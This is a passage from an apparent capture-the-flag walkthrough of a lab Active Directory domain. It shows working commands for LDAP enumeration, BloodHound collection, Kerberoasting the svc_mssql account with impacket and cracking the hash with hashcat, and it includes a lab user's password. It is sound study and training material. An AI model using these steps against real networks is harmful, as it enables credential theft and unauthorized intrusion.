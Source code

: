 I verified with crackmapexec, it seems that we do not have WinRM access meaning we'll need to pivot to another service/user. We can first attempt to enumerate LDAP, as we'll be able to see if there are any other users we can pivot to.

```
└─$ crackmapexec ldap 10.10.100.72 -u 'julia.wong' -p '(JULIA.WONG PASSWORD)'
SMB         10.10.100.72    445    BREACHDC         [*] Windows Server 2022 Build 20348 x64 (name:BREACHDC) (domain:breach.vl) (signing:True) (SMBv1:False)
LDAP        10.10.100.72    389    BREACHDC         [+] breach.vl\julia.wong:[...snip...]
```

Let's utilize the [Python ingestor](https://github.com/dirkjanm/BloodHound.py) for [Bloodhound](https://www.kali.org/tools/bloodhound/) to dump the domain, as we can try to enumerate what our current user can do along with getting a user list of all the user objects within the domain.

```
└─$ bloodhound-python -d 'breach.vl' -u 'julia.wong' -p 'Computer1' -c all -ns 10.10.124.111 --zip
```

Our `julia.wong` user node does not seem to have anything at first glance, though we can keep looking around for other user objects that may have other privileges.

There are a few things that I like to do at this point - notably creating a user list of all the domain users (if one wasn't acquired previously) and then using that to either kerberoast/ASREProast. Since we have all of the domain objects in Bloodhound you could just write them into a text file, I also provided a one-liner that does an LDAP query and greps for all of the usernames.

```
└─$ ldapsearch -x -LLL -H ldap://breachdc.breach.vl -D 'julia.wong@breach.vl' -b 'DC=breach,DC=vl' -w '(JULIA.WONG PASSWORD)' | grep userPrincipalName | awk '{print $2}' | cut -d '@' -f 1 > ul.txt
```

This should return a user list for all of the domain user objects that are within the AD environment. Let's now use `GetUserSPNs` to test if any users are kerberoastable. Since we have access to LDAP, what the tool we're about to use is doing is essentially fetching a password hash for user accounts linked to a Service Principal Name (SPN). If any users are able to have this password fetch, it will return an Kerberos TGS that is encrypted with the users password.

```
└─$ impacket-GetUserSPNs breach.vl/'julia.wong':'(JULIA.WONG PASSWORD)' -dc-ip 10.10.124.111 -request -usersfile ul.txt
......
$krb5tgs$23$*svc_mssql$BREACH.VL$svc_mssql*$da7e190c[...snip...]d20a2b
```

As you can see from the above, a valid TGS was retrieved for the user `svc_mssql`. We can attempt to crack this with `hashcat`. You can find a list of hash modes [here](https://hashcat.net/wiki/doku.php?id=example_hashes) at the hashcat wiki. The specific hash type we have is TGS-REP Kerberos 5 e-Type 23, which is denoted as hash mode ID 13100.

```
edad60ef4608feef54bb95ed7683b4169c4f356cc7417a869bd6a9cfca8094e081c733f9940f9a8fd3341a31d25f32cda8c70a8115e3389ef562549914dae6a78b2e036378b4dcbd20a2b:[...snip...]

Session..........: hashcat
Status...........: Cracked
```
